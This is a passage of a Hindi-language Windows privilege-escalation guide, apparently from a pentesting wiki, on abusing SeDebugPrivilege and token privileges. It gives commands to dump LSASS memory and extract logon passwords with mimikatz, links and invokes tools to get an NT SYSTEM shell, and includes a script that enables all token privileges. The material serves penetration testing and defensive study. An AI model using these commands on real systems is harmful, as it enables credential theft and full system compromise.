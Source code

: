 #### Dump memory

आप [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) का उपयोग कर सकते हैं [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) से **एक प्रक्रिया की मेमोरी कैप्चर करने** के लिए। विशेष रूप से, यह **Local Security Authority Subsystem Service (**[**LSASS**](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)**)** प्रक्रिया पर लागू हो सकता है, जो एक बार जब उपयोगकर्ता सफलतापूर्वक सिस्टम में लॉग इन कर लेता है, तो उपयोगकर्ता क्रेडेंशियल्स को स्टोर करने के लिए जिम्मेदार है।

आप फिर इस डंप को mimikatz में लोड कर सकते हैं ताकि पासवर्ड प्राप्त कर सकें:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE

यदि आप `NT SYSTEM` शेल प्राप्त करना चाहते हैं, तो आप उपयोग कर सकते हैं:

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```
## विशेषाधिकार जांचें
```
whoami /priv
```
**जो टोकन Disabled के रूप में दिखाई देते हैं** उन्हें सक्षम किया जा सकता है, आप वास्तव में _Enabled_ और _Disabled_ टोकनों का दुरुपयोग कर सकते हैं।

### सभी टोकनों को सक्षम करें

यदि आपके पास टोकन निष्क्रिय हैं, तो आप सभी टोकनों को सक्षम करने के लिए स्क्रिप्ट [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) का उपयोग कर सकते हैं:
```powershell
.\EnableAllTokenPrivs.ps1
whoami /priv
```
या **स्क्रिप्ट** को इस [**पोस्ट**](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) में एम्बेड किया गया है।

## तालिका

पूर्ण टोकन विशेषाधिकार चीटशीट [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin) पर है, नीचे का सारांश केवल सीधे तरीकों को सूचीबद्ध करेगा जो विशेषाधिकार का शोषण करके एक व्यवस्थापक सत्र प्राप्त करने या संवेदनशील फ़ाइलों को पढ़ने के लिए हैं।
